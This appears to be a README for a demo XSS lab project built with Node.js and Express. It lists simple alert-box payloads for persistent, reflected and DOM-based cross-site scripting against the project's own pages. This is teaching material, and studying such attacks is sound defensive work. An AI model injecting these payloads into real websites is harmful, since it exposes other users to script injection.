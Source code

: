 # XSS-attacks

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. 
XSS enables attackers to inject client-side scripts into web pages viewed by other users.

## Getting Started

Download the files from the Git

### Prerequisites

install webstorm 

### Installing

Install nodejs and express 

## Running 

Run the project and choose an attack .
run the attacks with the following scripts:

#Persistent XSS
```
<button onmouseover="alert(123)">hi</button>

<b onmouseover=alert('Wufff!')>click me!</b>
```
#Reflected XSS 
```
write this script as a user name in the URL.
<div><button onmouseover="alert(123)">hi</button></div>
```
#DOM XSS
```
write this after your name in the URL
<script>alert("You shouldn't click on unknown links!")</script>
 ```
